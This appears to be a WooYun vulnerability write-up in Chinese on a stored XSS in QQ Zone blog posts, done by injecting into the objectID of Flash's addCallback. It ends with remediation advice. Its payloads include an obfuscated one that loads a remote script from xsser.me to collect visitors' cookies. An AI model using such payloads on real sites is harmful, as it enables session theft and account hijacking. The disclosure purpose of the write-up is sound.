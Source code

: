 # 21\. 存储型 XSS 进阶 [猜测规则，利用 Flash addCallback 构造 XSS]

# 21\. 存储型 XSS 进阶 [猜测规则，利用 Flash addCallback 构造 XSS]

> 来源：[21\. 存储型 XSS 进阶 [猜测规则，利用 Flash addCallback 构造 XSS]](http://www.wooyun.org/bugs/wooyun-2010-016803)

## 简要描述

有些时候，我们拿现成的 XSS 代码都不行，都被过滤了，那么需要我们对过滤的规则进行一定的判断与猜测。然后针对性的使用一些技 巧来适应或者绕过规则。

在本例中，我们以 QQ 空间/QQ 校友的日志功能为例，通过猜测简单的过滤规则，然后使用含有 addCallback 的 flash，来实现了存储型 XSS 的构造。

详细说明：

1\. 前提：本例需在 IE9，IE10 下进行。

2\. 我们乌云上报告的一些已有案例，进行了再次测试。

[（QQ 空间+朋友网）日志功能存储型 XSS](http://www.wooyun.org/bugs/wooyun-2012-013721)

上例中，提到了 QQ 空间日志并未对 object 标签进行有效的过滤。

3\. 我们根据此例中的代码对过滤规则进行测试：

```
<object width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

以上的代码，是可以正常提交，并且未过滤的。

```
<object width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://mysite.com/vphoto.swf"><PARAM NAME="Src" VALUE="http://mysite.com/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

而当 swf 的域名不是 qzs.qq.com 时候，代码将会被过滤为以下内容。

```
<object width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

即地址被去掉了。

4\. 那么我们已知了这个过滤规则， 就有 2 种绕过的方式。

4.1 找到一个 qzs.qq.com 域名下存在缺陷的 FLASH，然后加以利用。

此方法，已经在 @gainover 的 [WooYun: PKAV 腾讯专场 - 6\. （QQ 空间+朋友网）日志功能存储型 XSS](http://www.wooyun.org/bugs/wooyun-2012-013721) 有所介绍了。

4.2 利用 Flash 的 addcallback 缺陷来构造存储型 XSS。

5\. 首先说下 flash addcallback 方法的基本原理。

根据 flash sdk 里的源代码，我们可以得到 flash addcallback 的源代码中有以下代码。

```
if ((((activeX == true)) && (!((objectID == null))))){
    _evalJS(((((" flash addCallback(document.getElementById(\"" + objectID) + "\"), \"") + functionName) + "\");"));
}; 
```

![image](img/Image_114.jpg)

其中 objectID 为调用 FLASH 的 HTML 标签的 ID。functionName 则为被 JS 所调用的函数名称。

6\. 当我们有以下代码时：

```
<object id="aaaa" width="100%" height="100%" align="middle" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

且 [`qzs.qq.com/qzone/client/photo/swf/vphoto.swf`](http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf) 中存在一句

```
ExternalInterface.addCallback("myfunc",funcInFlash); 
```

则有

```
objectID="aaaa";
functionName="myfunc"; 
```

代入上面那句 _evalJS 中，则有

```
flash addCallback(document.getElementById("aaaa"), "myfunc"); 
```

7\. 那么我们可以想象一下，如果 aaaa 替换为 `aaaa"),alert(1),("` 则上面代码变为

```
flash addCallback(document.getElementById("aaaa"),alert(1),(""), "myfunc"); 
```

解析：

![image](img/Image_115.jpg)

8\. 且 FLASH 中，确实未对 objectID 做任何过滤。 基于以上内容，我们可以构建利用代码。

```
<object id='aaaa"),alert(1),("' width="100%" height="100%" align="middle"
classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

我们自己用上面这段代码先在自己网站上测试下：

![image](img/Image_116.jpg)

看，果然 id 里的代码被执行了！

9\. 利用以上原理，接着我们在 QQ 空间里来做测试，至于 FLASH 么，就是现成的！ 虽然这个 FLASH 里没有缺陷，但是存在 addCallback 的调用，我们就可以直接用它。

```
<object width="100%" height="100%" align="middle" id="xsstest1&quot),(function(){if(!window. x){window. x=1;window.s=document.createElement(String.fromCharCode(115,9 9,114,105,112,116));window.s.src=String.fromCharCode(104,116,116,112,58,47,47,120,115,115,101,114,46,109,101,47,66,11
3,112,57,82,121);document.body.appendChild(window.s);}})(),(&quot;"
classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" type="application/x-shockwave-flash"><PARAM NAME="Movie"
VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="Src" VALUE="http://qzs.qq.com/qzone/client/photo/swf/vphoto.swf"><PARAM NAME="AllowScriptAccess" VALUE="always"> 
```

发布日志，使用以上代码

![image](img/Image_117.jpg)

10\. 当用户访问含有 XSS 代码的日志后，我们可以在 xsser.me 查看所记录的 cookies 内容。

![image](img/Image_118.jpg)

修复方案：

1\. 过滤 object 标签

2\. 设置 allowscriptaccess 为 never ，即使设置为 sameDomain, 也可能找到同域下含有 addCallback 调用的 FLASH。